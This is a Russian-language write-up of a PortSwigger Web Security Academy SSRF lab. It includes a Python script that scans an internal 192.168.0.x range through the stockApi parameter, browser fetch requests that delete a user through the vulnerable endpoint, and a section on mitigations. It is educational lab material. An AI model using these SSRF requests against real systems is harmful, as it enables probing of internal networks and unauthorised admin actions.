




# PortSwigger Lab: Basic SSRF against another back-end system

## Описание лаборатории
- **Платформа:** PortSwigger Web Security Academy
- **Сложность:** Apprentice
- **Цель:** Использовать функционал проверки наличия товара для сканирования внутреннего диапазона `192.168.0.X` на наличие интерфейса администратора на порту `8080`, а затем использовать его для удаления пользователя `carlos`.

## Анализ уязвимости
Функционал проверки наличия товара (`/product/stock`) принимает URL через параметр `stockApi` и загружает с него данные без проверки пункта назначения. 

В отличие от предыдущей лаборатории, внутренняя панель администратора находится не на `localhost`, а на другой машине внутри внутренней сети (`192.168.0.X` на порту `8080`). Злоупотребляя уязвимостью SSRF, сервер можно использовать как прокси для сканирования внутренней сети и обнаружения скрытого интерфейса администратора.

## Шаги эксплуатации
1. Определен уязвимый эндпоинт (`/product/stock`) и параметр (`stockApi`).
2. Написан скрипт на Python для автоматизации сканирования внутреннего диапазона сети:
   ```python
   import requests

   lab_id = "YOUR-LAB-ID"
   url = f"https://{lab_id}.web-security-academy.net/product/stock"

   for i in range(1, 256):
       target = f"http://192.168.0.{i}:8080/admin"
       response = requests.post(url, data={"stockApi": target}, timeout=2)
       if response.status_code == 200:
           print(f"[+] FOUND ADMIN PANEL AT: {target}")
           break
   ```
3. Запущен скрипт. Он успешно обнаружил панель администратора по адресу `http://192.168.0.42:8080/admin`.
4. С помощью консоли браузера отправлен запрос `fetch` к обнаруженной панели администратора, подтверждая, что она доступна через SSRF:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://192.168.0.42:8080/admin'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
5. В полученном HTML-коде найдена ссылка для удаления пользователя `carlos`.
6. Выполнен запрос на удаление через уязвимый сервер:
   ```javascript
   fetch('/product/stock', {
     method: 'POST',
     headers: {'Content-Type': 'application/x-www-form-urlencoded'},
     body: 'stockApi=http://192.168.0.42:8080/admin/delete?username=carlos'
   })
   .then(r => r.text())
   .then(t => console.log(t));
   ```
7. Пользователь `carlos` был удален, и лаборатория решена.

## Доказательства

### Код сканера


### Результат сканирования (Найденный IP)


### Доступ к панели администратора через SSRF


### Выполнение запроса на удаление


### Лаборатория решена


## Меры защиты (Mitigation)
Для предотвращения SSRF приложение должно проверять предоставленный пользователем URL.
1. **Белый список (Allowlist):** Разрешать запросы только к конкретному доверенному домену API проверки наличия товара.
2. **Блокировка внутренних IP:** Убедиться, что сервер не может делать запросы к внутренним диапазонам IP (таким как `192.168.0.0/16`, `10.0.0.0/8`, `127.0.0.1`).